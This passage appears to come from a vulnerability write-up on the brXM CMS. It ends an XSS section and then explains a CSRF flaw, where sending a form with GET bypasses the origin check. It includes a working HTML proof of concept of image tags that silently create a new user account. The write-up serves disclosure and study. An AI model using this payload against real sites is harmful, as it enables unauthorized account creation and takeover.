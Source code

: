 The screenshot below shows the JavaScript is executed:

![xss image](https://raw.githubusercontent.com/tvrbk/tvrbk.github.io/main/_posts/brXM-12.png)

# Cross-Site Request Forgery
A Cross-Site Request Forgery (CSRF) vulnerability is a weakness in a web application where it allows request from other origins. Malicious users are able to post data from other sources to the web applications endpoints. 

Numerous ways exist for HTML pages to automatically sent data to a form. This can be done with JavaScript or something as simple as an image.
The web application assumes that the form is submitted using the POST method. The application properly checks the origin header. However, a form can also be transmitted using the GET method. The form parameters will then be in the URL bar. This bypasses the earlier mentioned origin-header check. 

A malicious user could then create a page with images. By visiting the page and requesting the images will result in GET requests to the form URL automatically. A logged in user can be tricked to visit this malicious page leading to unintended actions in the web application, such as creating accounts or changing passwords.

To exploit this vulnerability a HTML page was crafted with multiple images which simulates the steps through the menu and finally sending the final GET request to create a new user.

{% highlight html %}
<img src="http://localhost:8080/cms/?1-1.IBehaviorListener.0-root-tabs-tabs~container-tabs-3-container-link&iframe">
<img src="http://localhost:8080/cms/?1-1.IBehaviorListener.0-root-tabs-panel~container-cards-3-panel-panel-create~user~button~container-create~user~link&iframe">
<img src="http://localhost:8080/cms/?1-1.IBehaviorListener.0-root-tabs-panel~container-cards-3-panel-panel-form-create~button=&iframe=&username=csrf&firstName=csrf&lastName=csrf&email=test%40test.test&password=Welkom01!&password-check=Welkom01!&create-button=1">
{% endhighlight %}
